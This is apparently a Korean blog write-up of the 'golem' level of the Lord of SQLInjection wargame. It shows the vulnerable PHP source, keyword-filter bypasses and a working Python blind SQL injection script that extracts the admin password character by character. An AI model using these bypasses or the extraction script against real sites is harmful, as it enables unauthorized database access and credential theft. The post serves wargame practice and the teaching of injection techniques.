 ```yaml
---
layout: post
title: ! "[LOS] golem"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - golem
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![]({{ site.baseurl }}/assets/posts/los/golem.png)

`query : select id from prob_golem where id='guest' and pw=''`

```?php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

golem 문제는 or, and, substr, = 등등 여러가지가 필터링된다.
```
or -> ||

and -> &&(%26%26)

substr -> substring

= -> like
```

위와 같이 우회해주면 된다.

orge 문제를 풀 때 썼던 코드가 왜인지 안먹혀서...다른 분의 코드를 참고해서 다시 작성하였다.

```py
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "https://los.eagle-jump.org/golem_~~~.php"
session = dict(PHPSESSID = "자신의 세션 아이디")

for i in range(0, 20):
        query = url + "?pw=1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
        r = requests.post(query, cookies=session)

        if 'Hello admin' in r.text:
                length = i
                break

print "password length is ",length

for j in range(1, length + 1):
        for i in range(48, 128):
                query = url + "?pw=1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
                r = requests.post(query, cookies=session)

                if 'Hello admin' in r.text:
                        flag += chr(i)
                        break

print "password is",flag
```

실행 결과는 다음과 같다.
![]({{ site.baseurl }}/assets/posts/los/golem_password.png)
password의 길이는 8, password는 88e3137f

이 값을 `?pw=88e3137f` 이렇게 넘겨주면 풀린다.

![]({{ site.baseurl }}/assets/posts/los/golem_clear.png)
 

### https://los.rubiya.kr 버전

![]({{ site.baseurl }}/assets/posts/los/golem_result.png)

![]({{ site.baseurl }}/assets/posts/los/golem_py_clear.png)
